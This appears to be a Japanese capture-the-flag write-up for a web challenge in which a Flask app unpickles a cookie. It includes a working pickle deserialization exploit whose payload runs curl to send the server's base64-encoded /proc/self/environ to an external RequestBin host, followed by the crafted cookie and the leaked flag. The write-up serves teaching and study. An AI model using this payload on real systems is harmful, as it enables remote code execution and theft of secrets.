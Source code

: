 # Jar:Web:70pts
My other pickle challenges seem to be giving you all a hard time, so here's a [simpler one](https://jar.2021.chall.actf.co/) to get you warmed up.  
[jar.py](jar.py), [pickle.jpg](pickle.jpg), [Dockerfile](Dockerfile)  
Hint  
The Python [documentation](https://docs.python.org/3/library/pickle.html) for pickle has this big red box... I hope it's not important.  

# Solution
アクセスすると、ピクルスにtextを漬けられるサイトのようだ。  
site  
[site1.png](site/site1.png)  
配布されたjar.pyを見ると以下のようであった。  
```python
~~~
@app.route('/')
def jar():
	contents = request.cookies.get('contents')
	if contents: items = pickle.loads(base64.b64decode(contents))
	else: items = []
	return '<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button><img style="width: 100%; height: 100%" src="/pickle.jpg">' + \
		''.join(f'<div style="background-color: white; font-size: 3em; position: absolute; top: {random.random()*100}%; left: {random.random()*100}%;">{item}</div>' for item in items)

@app.route('/add', methods=['POST'])
def add():
	contents = request.cookies.get('contents')
	if contents: items = pickle.loads(base64.b64decode(contents))
	else: items = []
	items.append(request.form['item'])
	response = make_response(redirect('/'))
	response.set_cookie('contents', base64.b64encode(pickle.dumps(items)))
	return response
~~~
```
cookie経由でデータをやり取りし、pickleを用いているようだ。  
コードをシリアライズしたものを渡してやれば実行できることが知られている。  
flagの場所が不明だが配布されたDockerfileに`ENV FLAG="actf{REDACTED}"`の記述がある。  
つまり`/proc/self/environ`に書かれている。  
以下のyumm.pyでcurlを用い、外部にファイルの中身を送信してやるcookieを作成する。  
```python:yumm.py
import base64
import pickle

class rce():
    def __reduce__(self):
        return (eval, ("os.system('curl https://enbgdei302k4o.x.pipedream.net/ -d \"$(cat /proc/self/environ | base64)\"')",))
        # https://enbgdei302k4o.x.pipedream.net/ <- RequestBin.com

code = pickle.dumps(rce())
print(base64.b64encode(code))
```
実行して得られたcookieを設定し、リクエストを飛ばす。  
```bash
$ python3 yumm.py
b'gASVfAAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIxgb3Muc3lzdGVtKCdjdXJsIGh0dHBzOi8vZW5iZ2RlaTMwMms0by54LnBpcGVkcmVhbS5uZXQvIC1kICIkKGNhdCAvcHJvYy9zZWxmL2Vudmlyb24gfCBiYXNlNjQpIicplIWUUpQu'
$ curl https://jar.2021.chall.actf.co/ --cookie "contents=gASVfAAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIxgb3Muc3lzdGVtKCdjdXJsIGh0dHBzOi8vZW5iZ2RlaTMwMms0by54LnBpcGVkcmVhbS5uZXQvIC1kICIkKGNhdCAvcHJvYy9zZWxmL2Vudmlyb24gfCBiYXNlNjQpIicplIWUUpQu"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```
受付側サーバで以下のようなデータを得られた。  
```
VklSVFVBTF9IT1NUPWphci4yMDIxLmNoYWxsLmFjdGYuY28ASE9TVE5BTUU9MDI0MzQ3YWYzMGJl
AFBZVEhPTl9QSVBfVkVSU0lPTj0yMS4wLjEASE9NRT0vbm9uZXhpc3RlbnQAR1BHX0tFWT1FM0ZG
MjgzOUMwNDhCMjVDMDg0REVCRTlCMjY5OTVFMzEwMjUwNTY4AFBZVEhPTl9HRVRfUElQX1VSTD1o
dHRwczovL2dpdGh1Yi5jb20vcHlwYS9nZXQtcGlwL3Jhdy8yOWYzN2RiZTZiMzg0MmNjZDUyZDYx
ODE2YTMwNDQxNzM5NjJlYmViL3B1YmxpYy9nZXQtcGlwLnB5AFBBVEg9L3Vzci9sb2NhbC9iaW46
L3Vzci9sb2NhbC9zYmluOi91c3IvbG9jYWwvYmluOi91c3Ivc2JpbjovdXNyL2Jpbjovc2Jpbjov
YmluAExBTkc9Qy5VVEYtOABQWVRIT05fVkVSU0lPTj0zLjkuMwBQV0Q9L3NydgBQWVRIT05fR0VU
X1BJUF9TSEEyNTY9ZTAzZWI4YTMzZDNiNDQxZmY0ODRjNTZhNDM2ZmYxMDY4MDQ3OWQ0YmQxNGU1
OTI2OGU2Nzk3N2VkNDA5MDRkZQBGTEFHPWFjdGZ7eW91X2dvdF95b3Vyc2VsZl9vdXRfb2ZfYV9w
aWNrbGV9AA==
```
base64デコードすると元データが得られる。
```
VIRTUAL_HOST=jar.2021.chall.actf.co.HOSTNAME=024347af30be.PYTHON_PIP_VERSION=21.0.1.HOME=/nonexistent.GPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568.PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/29f37dbe6b3842ccd52d61816a3044173962ebeb/public/get-pip.py.PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin.LANG=C.UTF-8.PYTHON_VERSION=3.9.3.PWD=/srv.PYTHON_GET_PIP_SHA256=e03eb8a33d3b441ff484c56a436ff10680479d4bd14e59268e67977ed40904de.FLAG=actf{you_got_yourself_out_of_a_pickle}.
```
案の定flagが入っていた。  

## actf{you_got_yourself_out_of_a_pickle}